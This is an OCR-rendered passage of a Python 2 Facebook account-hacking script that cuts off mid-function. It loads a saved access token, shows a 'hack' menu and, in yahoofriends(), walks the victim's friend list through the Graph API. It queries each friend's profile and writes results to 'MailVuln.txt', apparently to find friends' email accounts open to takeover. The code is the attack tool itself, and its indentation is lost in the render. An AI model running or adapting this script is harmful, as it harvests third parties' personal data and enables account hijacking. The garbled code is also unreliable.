 
def menu_yahoo():
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()

os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '║-> \x1b[1;37;40m1. From Friends'
print '║-> \x1b[1;37;40m2. From File'
print '║-> \x1b[1;31;40m0. Back'
print '\x1b[1;37;40m║'
yahoo_pilih()


def yahoo_pilih():
go = raw_input('╚═\x1b[1;91m▶\x1b[1;97m ')
if go == '':
print '\x1b[1;91m[!] Can\'t empty'
yahoo_pilih()
else:
if go == '1':
yahoofriends()
else:
if go == '2':
yahoolist()
else:
if go == '0':
menu_hack()
else:
print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + go + ' \x1b[1;91mnot found'
yahoo_pilih()


def yahoofriends():
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()

os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
mpsh = []
jml = 0
jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
friends = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
kimak = json.loads(friends.text)
save = open('MailVuln.txt', 'w')
print 52 * '\x1b[1;97m\xe2\x95\x90'
for w in kimak['data']:
jml += 1
mpsh.append(jml)
id = w['id']
nama = w['name']
links = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
z = json.loads(links.text)